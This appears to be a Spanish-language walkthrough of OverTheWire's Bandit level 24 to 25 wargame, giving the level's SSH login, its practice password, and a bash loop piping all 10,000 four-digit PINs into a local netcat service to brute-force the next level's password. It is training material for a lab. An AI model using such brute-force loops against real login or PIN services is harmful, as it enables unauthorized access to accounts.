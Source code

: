 # Bandit Level 24 → Level 25

## Objetivo de nivel
Un demonio está escuchando en el puerto 30002 y le dará la contraseña para Bandit25 si se le da la contraseña de Bandit24 y un código PIN numérico secreto de 4 dígitos. No hay forma de recuperar el código pin, excepto pasando por todos los 10000 combinaciones, llamadas fuerza bruta.  
No es necesario crear nuevas conexiones cada vez

## Datos de acceso al nivel
``` bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
bandit24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

## Solución
``` bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
^C
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```
## Notas adicionales
| comando | descripción |
| ------ | ------ |
| for | Se pueden realizar for en el bash |

## Referencias
